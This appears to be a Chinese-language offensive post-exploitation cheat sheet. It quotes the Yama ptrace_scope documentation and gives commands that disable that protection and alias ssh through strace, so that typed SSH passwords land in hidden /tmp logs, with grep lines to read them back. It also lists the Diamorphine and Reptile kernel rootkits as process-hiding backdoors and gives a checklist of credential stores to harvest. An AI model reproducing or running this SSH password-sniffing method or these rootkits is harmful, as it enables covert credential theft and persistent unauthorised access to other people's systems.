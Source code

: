 ```

2 - admin-only attach: only processes with CAP_SYS_PTRACE may use ptrace
    with PTRACE_ATTACH, or through children calling PTRACE_TRACEME.

3 - no attach: no processes may use ptrace with PTRACE_ATTACH nor via
    PTRACE_TRACEME. Once set, this sysctl value cannot be changed.

The original children-only logic was based on the restrictions in grsecurity.
```

```
# 查看当前配置(如果值为3 修改该值后需重启系统生效)
cat /proc/sys/kernel/yama/ptrace_scope

# 修改配置
echo 0 > /proc/sys/kernel/yama/ptrace_scope
# 或
sysctl kernel.yama.ptrace_scope=0

# 编辑命令别名
vi ~/.bashrc
# 或
vi /etc/bashrc

# 添加一条命令别名
alias ssh='strace -o /tmp/.sshpwd-`date '+%d%h%m%s'`.log -e read,write,connect -s 2048 ssh'

# 使命令别名立即生效
source ~/.bashrc

# 查看正确的密码
grep "read(5" /tmp/.sshpwd-21Sep091537518282.log | tail -n 11

# 查看其他的输入
grep "read(*" /tmp/.sshpwd-21Sep091537518282.log | tail -n 11
```


#### 后渗透 - linux rootkit

|名称|属性|针对目标|描述|
|:-------------:|--|--|-----|
|rootkit [m0nad/Diamorphine](https://github.com/m0nad/Diamorphine)|C|Linux Kernels 2.6.x/3.x/4.x (x86 x86_64)|#backdoor #LKM #rootkit 需要ROOT权限 隐藏指定进程与通信.|
|rootkit [f0rb1dd3n/Reptile](https://github.com/f0rb1dd3n/Reptile)|C|linux|#backdoor #LKM #rootkit 参考Diamorphine开发. 以下系统下运行测试通过Debian 9/Ubuntu 18.04.1/Centos 7|


#### 后渗透 - 信息搜集

* 搜集的点
  * 系统 - 账号 口令
  * 浏览器 - 账号 口令
  * 邮箱客户端 - Outlook Thunderbird等
  * IM客户端 - Skype等
  * 数据库客户端 - DBVisualizer Postgresql Robomongo Squirrel SQLdevelopper等
  * RDP - 远程桌面连接程序 所保存的登录信息 ip 用户名 口令
  * 开发者常用软件 - Git for Windows、(SVN)Tortoise、Maven Apache等
  * 管理员常用软件 - Apache Directory Studio、CoreFTP、CyberDuck、FileZilla、FTPNavigator、OpenSSH、OpenVPN、PuttyCM、RDPManager、VNC、WinSCP、Windows Subsystem for Linux等
  * WIFI密码 - Wireless Network等
  * 代码与配置文件 - 从代码中找到有用的 ip port user pass mail token ... 可考虑对系统进行代码审计
  * 个人文件 - .txt .doc .xls 等
  * ...

